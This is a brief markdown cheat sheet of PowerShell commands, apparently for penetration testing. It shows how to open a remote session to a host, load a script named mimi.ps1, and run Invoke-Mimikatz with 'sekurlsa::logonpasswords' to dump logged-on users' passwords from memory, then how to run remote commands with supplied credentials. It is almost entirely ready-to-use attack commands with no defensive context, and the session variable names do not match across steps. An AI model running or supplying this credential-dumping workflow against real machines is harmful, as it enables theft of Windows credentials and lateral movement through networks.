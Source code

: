 # Powershell

## Commands

### Create a remote session

```text
$sess = New-PSSession -ComputerName lab.test.local
```

### Load a script 

```text
Invoke-Command  -FilePath{C:\temp\mimi.ps1} -Session $dc
```

### Execute the script

```text
 Invoke-Command -ScriptBlock{invoke-mimikatz -command '"sekurlsa::logonpasswords"'} $dc
```

#### Using credentials \(password needed\)

```text
Invoke-Command -ScriptBlock {ipconfig} -ComputerName target -Credential TEST\user
```



